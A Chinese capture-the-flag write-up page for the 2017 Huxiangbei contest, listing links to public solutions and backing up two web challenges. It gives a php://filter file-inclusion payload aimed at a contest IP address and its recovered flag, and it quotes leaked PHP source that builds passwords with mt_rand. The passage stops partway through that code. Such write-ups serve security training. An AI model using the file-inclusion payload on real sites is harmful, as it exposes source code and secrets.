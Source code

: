 # 2017湖湘杯
## 题目类型：
|类型|年份|难度|
|:---:|:---:|:---:|
|官方赛事题|2017|中|

# 题目下载：
+ 暂无

# 网上公开WP：
+ https://xz.aliyun.com/t/1692
+ https://xz.aliyun.com/t/1703
+ https://xz.aliyun.com/t/1706
+ https://xz.aliyun.com/t/1755
+ https://www.freebuf.com/articles/others-articles/155172.html
+ http://www.cnblogs.com/L1B0/
+ https://blog.csdn.net/qq_35078631/article/details/78630704
+ https://www.freebuf.com/vuls/161116.html
+ https://www.jianshu.com/p/e162e98bd34c
+ https://www.freebuf.com/column/160343.html

# 本站备份WP：
**感谢作者：niexinming、LB919、Assassin__is__me、一叶飘零**
## WEB
### Web200文件上传
一开始真的以为是文件上传，后面发现是骗人的，简单的文件包含，扫描发现存在flag.php

![](https://ae01.alicdn.com/kf/HTB16iDYaKH2gK0jSZFE763qMpXa2.png)

payload:
> http://118.190.87.135:10080/?op=php://filter/convert.base64-encode/resource=flag

解密得到flag
```
<?php 
$flag="flag{c420fb4054e91944a71ff68f7079b9424e5cba21}"; 
?>
```
### random

看了一下存在源码泄露
```
<?php
error_reporting(0);
$flag = "*********************";
echo "please input a rand_num !";
function create_password($pw_length =  10){
    $randpwd = "";
    for ($i = 0; $i < $pw_length; $i++){
        $randpwd .= chr(mt_rand(100, 200));
    }
    return $randpwd;
}

session_start();

```